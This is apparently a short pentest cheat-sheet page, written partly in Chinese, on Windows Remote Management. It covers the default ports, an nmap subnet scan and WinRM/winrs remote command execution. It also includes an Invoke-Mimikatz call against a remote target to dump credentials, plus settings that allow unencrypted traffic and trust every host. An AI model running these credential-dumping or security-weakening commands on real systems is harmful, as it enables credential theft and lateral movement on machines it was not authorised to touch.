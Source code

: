 ```yaml
---
id: winrm
title: Windows Remote Management
---
```


# Windows Remote Management
## Tips
* 默认端口 HTTP 5985, HTTPS 5986
* Windows Remote Shell (WinRS)
  * Windows 2008+
* 参考
  * https://pentestlab.blog/tag/winrm/

```bash
apk add nmap-scripts nmap-nselibs

nmap -p 5985,5986 -sV 192.168.0.0/24
```

```powershell
Invoke-Command -ComputerName TARGET -ScriptBlock { dir c:\ }
Import-Module ./Invoke-Mimikatz.ps1
Invoke-Mimikatz -ComputerName TARGET

Enable-PSRemoting -Force

winrm quickconfig
winrm set winrm/config/Client @{AllowUnencrypted = "true"}
Set-Item WSMan:localhost\client\trustedhosts -value *
```

winrm enumerate winrm/config/Listener

winrm quickconfig -transport:http

```cmd
winrm e winrm/config/listener

# 远程执行
winrs -r:http://WIN-2NE38K15TGH/wsman "cmd"
winrs -r:http://WIN-2NE38K15TGH/wsman "net localgroup administrators"
```
